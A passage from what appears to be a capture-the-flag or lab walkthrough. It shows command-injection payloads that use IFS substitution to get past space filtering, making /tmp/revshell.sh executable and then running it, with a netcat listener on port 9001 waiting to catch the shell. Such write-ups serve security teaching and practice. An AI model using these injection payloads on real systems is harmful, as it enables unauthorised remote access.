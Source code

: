 <figure><img src="../.gitbook/assets/Untitled 18 (1).png" alt=""><figcaption></figcaption></figure>

Next we have to provide executable permission to the reverse shell file to execute it. You can do this by supplying the following command.

```bash
$(IFS=_;command='chmod_777_/tmp/revshell.sh';$command;)
```

<figure><img src="../.gitbook/assets/Untitled 19 (1).png" alt=""><figcaption></figcaption></figure>

No error from the response and thus we have successfully updated the file permissions. Now its time to execute the reverse shell. But before that we have to start a `netcat` listener on our local machine on port `9001`.

<figure><img src="../.gitbook/assets/Untitled 20 (1).png" alt=""><figcaption></figcaption></figure>

Finally, its time to execute the reverse shell, supply the following command to do so.

```bash
$(IFS=_;command='/tmp/revshell.sh';$command;)
```

<figure><img src="../.gitbook/assets/Untitled 21 (1).png" alt=""><figcaption></figcaption></figure>
